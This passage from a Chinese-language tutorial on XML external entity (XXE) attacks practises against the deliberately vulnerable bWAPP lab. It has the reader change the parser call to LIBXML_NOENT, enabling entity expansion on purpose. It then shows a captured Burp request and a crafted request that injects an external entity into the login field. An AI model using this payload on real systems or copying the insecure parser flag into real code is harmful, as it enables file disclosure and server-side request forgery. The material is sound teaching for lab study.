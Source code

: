 在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。

## 实战演练

在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：

```
$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);

```

然后，打开靶场我们可以看到，页面中有一个按钮 `Any bugs?`，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：

```
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

<reset><login>bee</login><secret>Any bugs?</secret></reset>

```

经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。

```
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset[
<!ENTITY Info SYSTEM "http://127.0.0.1/1.txt">
]>

<reset><login>&Info;</login><secret>Any bugs?</secret></reset>
```